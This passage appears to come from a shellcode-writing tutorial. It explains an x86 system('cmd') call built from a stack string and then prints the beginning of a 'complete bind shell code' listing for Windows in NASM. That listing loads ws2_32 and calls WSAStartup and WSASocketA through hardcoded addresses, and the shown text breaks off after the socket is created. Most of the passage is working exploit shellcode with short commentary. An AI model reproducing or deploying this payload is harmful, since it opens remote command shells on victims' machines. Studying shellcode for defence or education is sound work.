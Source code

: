 `push eax` pushes the address of the "cmd\0" string on the stack and overwrites the previous trash there.
```perl
       Addr        Value      Ascii
ESP -> 0022FE1C    0022FE20   
EAX -> 0022FE20    00646D63   "cmd\0"
       0022FE24    5C110002
       0022FE28    00000000
```

Below is an alternative version of system(), which saves some bytes using EBP instead of ESP.
We save space because we don't need to update the value of EBP, like we did to ESP in the previous example.
The reason I use ESP instead is that EBP might get overwritten by the exploit.

```nasm
mov DWORD [ebp-0x5], 0x646d6341
lea eax, [ebp-0x4]
push eax
mov eax, 0x77c293c7
call eax
```


### The complete bind shell code

```nasm
[BITS 32]

global _start

section .text

_start:

; LoadLibraryA(_In_ LPCTSTR lpFileName)
xor eax, eax
mov ax, 0x3233
push eax            ; Push 0x00003233 (ASCII 32\0)
push 0x5f327377     ; Push 0x5f327377 (ASCII ws2_)
mov ebx, esp        ; Store pointer to "ws2_32" in ebx
push ebx            ; Arg lpFileName = ebx -> "ws2_32"
mov eax, 0x7c801d7b
call eax

; WSAStartup(WORD wVersionRequired, LPWSADATA lpWSAData)
add esp, 0xFFFFFE70 ; Creating space on stack (400 bytes)
push esp            ; Arg lpWSAData = top of stack
push 0x101          ; Arg wVersionRequired = 1.1
mov eax, 0x71ab6a55
call eax

; WSASocketA(int af, int type, int protocol, 
;            LPWSAPROTOCOL_INFOA lpProtocolInfo, 
;            GROUP g, DWORD dwFlags)
xor eax, eax
push eax             ; Arg dwFlags = 0
push eax             ; Arg g = 0
push eax             ; Arg lpProtocolInfo = 0
push eax             ; Arg protocol = IPPROTO_TCP
push 0x1             ; Arg type = SOCK_STREAM
push 0x2             ; Arg af = AF_INET
mov eax, 0x71AB8B6A
call eax
mov ebx, eax         ; Store WSASocket() handler

```